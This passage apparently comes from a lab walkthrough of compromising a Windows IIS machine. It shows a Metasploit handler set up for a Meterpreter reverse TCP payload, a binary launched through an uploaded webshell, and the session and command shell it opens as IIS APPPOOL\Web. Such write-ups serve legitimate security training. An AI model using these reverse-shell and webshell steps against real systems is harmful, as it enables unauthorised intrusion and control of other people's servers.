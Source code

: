 ```
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => 10.10.14.27
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.27:4444 
```

We find the winPEAS.bat and the reverse.exe files when we check the directory C:\inetpub\wwwroot with the webshell:

![ImgPlaceholder](screenshots/shell-uploaded.png)

We execute the shell.exe binary and we watch the Meterpreter reverse shell callback:

![ImgPlaceholder](screenshots/execute-shell.png)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.27:4444 
^[[A[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.27:4444 -> 10.10.10.5:49165) at 2021-01-06 22:36:24 +0100

meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > shell                                                                                   
Process 2980 created.                                                                                 
Channel 1 created.                                                                                    
Microsoft Windows [Version 6.1.7600]                                                                  
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.                                       
                                                                                                      
```